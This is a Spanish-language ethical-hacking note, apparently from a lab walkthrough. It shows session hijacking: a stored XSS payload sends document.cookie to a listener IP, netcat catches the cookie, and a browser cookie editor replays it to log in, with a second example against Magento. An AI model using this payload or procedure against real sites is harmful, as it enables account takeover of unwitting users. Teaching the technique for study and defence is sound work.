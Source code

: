 #HackingWeb #HackingGenerico #PinguinoMario #HackingEtico
Por tanto en este punto, podríamos intentar hacer un robo de cookies, por lo que crearemos otra nota poniendo una dirección URL en la cual el usuario víctima deberá hacer click; y ahí habremos obtenido su cookie de sesión.
Lo guardamos y veremos que hay un intento de imagen cargada en la web, pero que no llega a cargar:
```
<script>img = new Image(); img.src = "http://10.10.16.10/a.php?"+document.cookie;</script>
```
![[Pasted image 20230210135959.png]]
Lo guardamos y nos pondremos en escucha con netcat por el puerto 80 para recibir esa cookie de sesión:
![[Pasted image 20230210140316.png]]
Ahora que ya tenemos la cookie de sesión, sólo tenemos que importarla dentro de nuestro navegador y ya podremos entrar en el panel de login sin proporcionar contraseña, por lo que necesitaremos una extensión del navegador que se llama cookie editor:
![[Pasted image 20230210140409.png]]
La instalamos:
![[Pasted image 20230210140431.png]]
Y ahora en la web y utilizando esta extensión, pondremos la cookie que hemos capturado:
![[Pasted image 20230210140548.png]]
Guardamos y recargamos la página y hemos iniciado sesión:
![[Pasted image 20230210141901.png]]
# EJEMPLO 2
Veremos un ejemplo de haber conseguido una cookie de sesión [[Hacking Magento]]
![[Pasted image 20230423083532.png]]
Y desde la extensión cookie editor tenemos este campo donde podemos poner una cookie de sesión:
![[Pasted image 20230423083743.png]]
Le ponemos la nueva cookie que hayamos capturado:
![[Pasted image 20230423083819.png]]
Recargamos la página y ya estamos dentro:
![[Pasted image 20230423083844.png]]

